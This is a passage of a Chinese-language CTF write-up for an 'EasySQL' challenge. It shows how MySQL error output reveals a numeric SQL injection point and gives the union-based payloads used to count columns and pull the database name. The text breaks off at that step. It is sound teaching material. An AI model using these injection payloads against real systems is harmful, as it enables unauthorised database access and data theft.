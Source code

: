#### flag

```
flag{very_bas1c_but_necessary}
```



### EasySQL

#### 信息收集

> sql 注入一定要确认数据库类型，注入点位置，注入类型，回显情况等一些基本线索或者信息，并以此来推断后端的逻辑，然后再进行后续的操作

提交数字 1 到 4 后会回显诗句，数字 5 以后error，其他单个符号和字母报错，回显：

```
error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1
```

可以确定数据库用的是 **MySQL**

输入 1'  提交，回显：

```
check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1
```

可以确定 **注入点** 以及类型是 **数字型注入**

可以猜测后端 sql 语句大概是

```
select * from poem where poetry = $inject;
```



#### 进一步的操作

#### 爆字段数量

输入 1 order by 1 和 1 order by 2 提交正常回显，输入 1 order by 3 提交报错，因此 **字段数量为 2**

<img src="https://s1.ax1x.com/2020/10/15/0oIgFs.png" alt="0oIgFs.png" style="zoom:67%;" />

#### 确认插入位置

输入 1 union select 1,2 可以看到回显诗句和另起一行的数字2，因此 **第二个位置可以插入sql语句**

<img src="https://s1.ax1x.com/2020/10/15/0oI6oj.png" alt="0oI6oj.png" style="zoom:67%;" />

#### 爆数据库名

输入 1 union select 1,database() 回显，因此 **当前数据库为easysql** 

<img src="https://s1.ax1x.com/2020/10/15/0oIseg.png" alt="0oIseg.png" style="zoom:67%;" />
